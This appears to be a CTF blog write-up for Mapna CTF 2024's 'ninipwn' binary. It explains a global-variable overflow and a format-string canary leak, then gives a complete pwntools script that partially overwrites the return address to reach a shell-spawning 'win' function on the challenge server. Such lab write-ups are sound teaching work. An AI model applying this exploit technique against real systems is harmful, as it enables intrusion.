 ```yaml
---
layout: post
title: ninipwn
tags: [writeup, pwn, Mapna CTF]
---
```


## Description
This challenge is from [Mapna CTF 2024](https://ctftime.org/event/2205).
> pwn ^ pwn ^ pwn ^ pwn ^ pwn ^ pwn
> <br>[Attachment](/assets/files/blog/ninipwn/ninipwn)
> ```
> nc 3.75.185.198 7000
> ```

## Writeup
To start this challenge, I first ran the `checksec` command on the provided binary file:

![decomp](/assets/images/blog/ninipwn/checksec.png)

All protections were enabled, so I knew I would have to find a way around at least one of them to solve the challenge. Next, I loaded the binary into Ghidra. The `main` function simply prints out "XOR encryption service", then calls the `encryption_service` function. After looking through the code to get a sense of what it was doing, I cleaned up the code by renaming some variables so that it looked like this:

### `encryption_service`
![encryption_service](/assets/images/blog/ninipwn/encryption_service_decomp.png)

### `encrypt`
![encrypt](/assets/images/blog/ninipwn/encrypt_decomp.png)

Beyond this, there were a few other details of interest. The flag was not contained anywhere in the binary, meaning it would require gaining a shell on the remote system to instead find the flag on the filesystem. To further support this idea, there was a `win` function containing code to spawn a shell when called. My goal was to find a way to jump to this `win` function.

Here's what the program does: first, it asks the user to input the `text_length`, which must be between 0 and 256. Next, it asks for the `key` and prints the key back out to the user. Then, it asks for up to `text_length` bytes of `text` to store in a buffer on the stack. Finally, the program then takes the key provided and "encrypts" the buffer via the `encrypt` function. This XORs the text with the key by repeating the key every 8 bytes.

There are two critical places where the vulnerabilities lie. First, `key` and `text_length` are global variables, meaning they are not stored on the stack but rather in the `.bss` section of the binary. When the program accepts input to be used as the `key`, it accepts 10 bytes, which is 2 bytes greater than the allocated space for `key`. Since the item next to `key` is `text_length`, this causes a 2-byte overflow into `text_length`, allowing us to control the two upper-most, or least-significant bytes of `text_length`. Since the program asks for `key` after it asks for `text_length`, we can use this to bypass the check for `text_length` and write values of up to `0xffff` (decimal 65535), meaning we can perform a buffer overflow.

However, by itself, this vulnerability is not enough to gain a shell. While it does allow us to use a buffer overflow to overwrite the value of the saved `%rip`, it doesn't provide us with a way to overcome the stack canary. This is where the second vulnerability comes in. In line 21 of `encryption_service`, `printf` is called with user-controlled input as its only argument. The correct way to write this statement would have been `printf("%s", (char *)&key)`- notice the omission of the `"%s"`. This oversight allows us to perform what is known as a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). Without the `"%s"`, the C programming language treats the value of `key` as the format string. In normal operation, this will still produce the intended output, but as an attacker, we can pass in format specifiers like `"%p"` as the value of `key` to leak data from the stack. So what exactly would passing `"%p"` print? It does exactly what it normally does, which is print the second argument to `printf` as a pointer, or in other words, `%rdi` (the x86 register for the second argument). By extension, we can add more `%p`s to leak other "arguments", and at the 6th `%p`, start to leak from the top of the stack (since x86 assembly stores arguments beyond the 6th on the stack). The C notation for this would be `"%6$p"`. However, we don't just want the top value of the stack- we want the stack canary. To calculate the offset of the stack canary from the top of the stack as defined at the `printf`, I set a breakpoint in GDB after the `printf` statement and ran `info frame` to find where the canary was stored in the current frame. Then, I calculated the difference between `%rsp` and the location of the canary and divided it by 8 to get the number of "pointers" I needed to offset by. The result was 33, so my format string needed to be `"%39$p"` (33 + 6 to start at the top of the stack). Testing this in GDB confirmed that the program did indeed leak the correct value.

![canary](/assets/images/blog/ninipwn/canary.png)

Now that I had the information I needed, all that remained was to craft the actual exploit. Since the goal was to gain a shell using the provided `win` function, I needed to overwrite the value of the stored `%rip` with the address of the `win` function. However, with PIE turned on, that address would be randomized each time the program was ran, which would require another leak to know in its entirety, except for the last 3 hex characters (12 bits). Instead, to avoid having to know the full address, I decided to perform a partial overwrite, which would utilize the existing stored address. The address of the `win` function and the address of `main` which `encryption_service` would normally return to, offset `0x00101433` and `0x001014f8` respectively, were close enough that they only differed by their last byte, even with PIE turned on. This meant I could perform an overwrite of only the least-significant/upper-most byte. Since the "overwrite" was actually an XOR function, this meant making the first byte of the key the value needed to XOR with `0xf8` to result in `0x33`, which is `0xcb`.

## Solve

```
from pwn import *
import time


binary = "./ninipwn"
elf = context.binary = ELF(binary, checksec=False)

# break *(encryption_service+0x165)
gs = """
break *(encryption_service+0x11a)
continue
"""

# `python3 solve.py REMOTE`
if args.REMOTE:
    p = remote("3.75.185.198", 7000)

# `python3 solve.py GDB`
elif args.GDB:
    context.terminal = ["tmux", "splitw", "-h", "-l", "120"]
    p = gdb.debug(binary, gdbscript=gs)

# `python3 solve.py`
else:
    p = elf.process()

# overwrite buffer + canary + saved rbp + least-significant byte of saved rip
overwrite = 264 + 8 + 8 + 1
key = (b'\xcb' + b'%39$p').ljust(8, b'\x00')

# can overflow KEY by 2 bytes to control this value up to 0xffff
p.sendlineafter(b'Text length: ', b'255')

p.sendafter(b'Key: ', key + overwrite.to_bytes(2, 'little'))

p.recvuntil(b'Key selected: \xcb')
canary = int(p.recvline(keepends=False), 16)
# print("RECEIVED CANARY:", hex(canary))

p.sendafter(b"Text: ", b'\x00'*(264) + p64(canary ^ u64(key)))
p.recvuntil(b'Encrypted output: ')
p.recv()

p.interactive()
```

![solve](/assets/images/blog/ninipwn/solve.png)
